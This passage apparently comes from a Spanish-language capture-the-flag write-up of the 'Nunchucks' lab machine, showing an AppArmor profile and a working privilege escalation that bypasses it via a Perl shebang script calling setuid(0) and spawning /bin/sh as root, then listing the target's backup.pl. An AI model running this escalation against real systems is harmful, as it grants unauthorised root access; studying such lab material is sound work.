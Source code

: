 ```
  /usr/bin/id mrix,
  /usr/bin/ls mrix,
  /usr/bin/cat mrix,
  /usr/bin/whoami mrix,
  /opt/backup.pl mrix,
  owner /home/ r,
  owner /home/david/ r,

}
```

En `Hacktricks` encontramos un artículo sobre como `bypassear` la seguridad de `AppArmor` mediante el `shebang` [https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/apparmor#apparmor-shebang-bypass](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/apparmor#apparmor-shebang-bypass)

```
david@nunchucks:/tmp$ echo '#!/usr/bin/perl
> use POSIX qw(strftime);
> use POSIX qw(setuid);
> POSIX::setuid(0);
> exec "/bin/sh"' > /tmp/test.pl
david@nunchucks:/tmp$ chmod +x /tmp/test.pl
david@nunchucks:/tmp$ /tmp/test.pl
# whoami
root
```

En `/opt` nos encontramos dos archivos interesantes, el archivo `backup.pl` también se aprovecha de este bug para `ejecutarse` como usuario `root`

```
# ls
backup.pl  web_backups
# cat backup.pl
#!/usr/bin/perl
use strict;
use POSIX qw(strftime);
use DBI;
use POSIX qw(setuid); 
POSIX::setuid(0); 

my $tmpdir        = "/tmp";
my $backup_main = '/var/www';
my $now = strftime("%Y-%m-%d-%s", localtime);
my $tmpbdir = "$tmpdir/backup_$now";

sub printlog
{
    print "[", strftime("%D %T", localtime), "] $_[0]\n";
}

sub archive
{
    printlog "Archiving...";
    system("/usr/bin/tar -zcf $tmpbdir/backup_$now.tar $backup_main/* 2>/dev/null");
    printlog "Backup complete in $tmpbdir/backup_$now.tar";
}

if ($> != 0) {
    die "You must run this script as root.\n";
}

printlog "Backup starts.";
mkdir($tmpbdir);
```
